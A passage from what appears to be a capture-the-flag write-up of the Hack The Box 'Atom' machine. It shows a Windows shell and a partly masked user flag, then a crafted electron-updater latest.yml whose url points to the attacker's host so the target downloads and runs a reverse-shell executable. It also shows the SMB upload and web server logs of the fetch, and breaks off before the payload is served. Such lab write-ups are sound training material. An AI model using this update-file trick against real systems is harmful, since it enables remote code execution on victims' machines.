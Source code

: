     C:\WINDOWS\system32>whoami
    atom\jason



There's no shell upgrade in Windows, but I do use `rlwrap` to get access
to the arrow keys. If you prefer PowerShell to Cmd, you can run
`powershell` to get that prompt.

`user.txt` is also now available:



    C:\Users\jason\desktop>type user.txt
    3bb5552e************************



#### Remote

When helping a friend with Atom later, I noticed that the field was
`url`, and while I was putting a local file next to `latest.yml` on the
server, it seems logical that exploit also works with the payload
remotely. I'll create another YAML file:



    version: 2.2.5
    files:
      - url: http://10.10.14.7/r'ev.exe
        sha512: xYmfwTcneb8dT4kVFeUtvyrEGi1iiJvqrU1PaLPMC/omejOR7f0gyOT1lTv8pjcXXr6kR0u8rAxg4Sd5zk/fOw==
        size: 7168
    path: r'ev.exe
    sha512: xYmfwTcneb8dT4kVFeUtvyrEGi1iiJvqrU1PaLPMC/omejOR7f0gyOT1lTv8pjcXXr6kR0u8rAxg4Sd5zk/fOw==
    releaseDate: '2021-04-17T11:17:02.627Z



The only thing I changed is the `url` is now pointing at my host. I'll
upload this to Atom:



    smb: \client1\> put latest-remote.yml latest.yml
    putting file latest-remote.yml as \client1\latest.yml (4.8 kb/s) (average 4.8 kb/s)



Each minute, there are two connections to my webserver:



    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.237 - - [10/Jul/2021 07:07:13] code 404, message File not found
    10.10.10.237 - - [10/Jul/2021 07:07:13] "GET /r'ev.exe.blockmap HTTP/1.1" 404 -
    10.10.10.237 - - [10/Jul/2021 07:07:13] code 404, message File not found
    10.10.10.237 - - [10/Jul/2021 07:07:13] "GET /r%27ev.exe HTTP/1.1" 404 -



If I put the payload there:


